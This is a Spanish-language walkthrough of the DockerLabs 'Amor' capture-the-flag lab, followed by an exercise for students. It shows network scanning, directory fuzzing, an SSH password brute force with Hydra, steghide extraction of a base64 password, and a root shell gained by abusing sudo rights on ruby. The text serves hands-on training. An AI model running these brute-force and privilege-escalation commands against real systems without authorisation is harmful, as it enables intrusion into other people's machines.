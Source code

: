 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)
## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

![](hydra.jpg)

Imagén descarga.
![](hydra.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

gobuster.png

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
IMaGEN SCP


La imagen descargada es la siguiente:

FOTO

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.

